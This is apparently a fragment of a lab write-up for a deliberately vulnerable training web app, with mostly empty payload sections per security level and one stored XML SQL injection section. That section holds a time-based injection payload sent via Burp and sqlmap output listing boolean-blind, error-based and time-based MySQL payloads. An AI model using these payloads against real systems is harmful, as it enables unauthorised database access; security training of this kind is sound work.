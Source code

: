 Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  QL Injection - Stored (XML) 💀
use burp
```
<reset><login>bee%' OR SLEEP(5)#</login><secret>lol</secret></reset>
```
sqlmap identified the following injection point(s) with a total of 511 HTTP(s) requests:
```
Parameter: XML (generic) login ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: <reset><login>bee%' RLIKE (SELECT (CASE WHEN (7674=7674) THEN 0x626565 ELSE 0x28 END)) AND '%'='</login><secret>lol</secret></reset>

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: <reset><login>bee%' AND EXTRACTVALUE(6673,CONCAT(0x5c,0x7170787671,(SELECT (ELT(6673=6673,1))),0x717a6b6271)) AND '%'='</login><secret>lol</secret></reset>

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: <reset><login>bee%' OR SLEEP(5)#</login><secret>lol</secret></reset>
---
```

### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 
